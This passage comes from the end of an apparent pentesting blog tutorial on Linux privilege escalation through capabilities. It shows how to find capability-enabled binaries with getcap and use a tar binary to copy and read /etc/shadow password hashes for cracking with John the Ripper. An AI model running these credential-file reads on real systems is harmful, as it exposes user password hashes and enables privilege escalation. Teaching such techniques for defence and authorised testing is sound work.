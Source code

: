 ```
getcap -r / 2>/dev/null  
pwd  
ls -al tar
```

In this, we try to read shadow file where all system’s user password hashes are stored for this you have to follow below steps.

*   Compress the /etc/shadow in the current directory with the help of the tar program.
*   You will get shadow.tar in your current directory.
*   Extract the shadow.tar and you will get a directory as “etc/shadow”.
*   Use cat/head/tail or program to read the hashes of passwords.

```
./tar cvf shadow.tar /etc/shadow  
ls  
./tar -xvf shadow.tar
```

![](https://i0.wp.com/1.bp.blogspot.com/-b3644p0Bs_w/XeIpXefPKcI/AAAAAAAAhuU/BmIyU1zimQ4tqVwsbMEzgVn3HLetXA9zQCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

As a result, you will have “etc/shadow” file your current directory and you can read the hashes of the password as shown here.

```
tail -8 etc/shadow
```

A malicious user can break this password using a tool such as a john the ripper or hash killer etc.

![](https://i2.wp.com/1.bp.blogspot.com/-yn41un2uWV8/XeIpTyqOImI/AAAAAAAAhts/TyqIpU2fKYoxJoG7h7mdSabts9sffP2qwCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

**Conclusion**:  The system admin should be aware of security loopholes during assigning such capability which can affect the integrity of kernel that can lead to privilege escalation.

**References**:

[http://lists.linuxfromscratch.org/pipermail/hlfs-dev/2011-August/004870.html](http://lists.linuxfromscratch.org/pipermail/hlfs-dev/2011-August/004870.html)

[https://gtfobins.github.io/](https://gtfobins.github.io/)

**Author**: Komal Singh is a Cyber Security Researcher and Technical Content Writer, she is completely enthusiastic pentester and Security Analyst at Ignite Technologies. Contact [**Here**](https://www.linkedin.com/in/komal-rajput-26b783131/)

The post [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2XZM7FE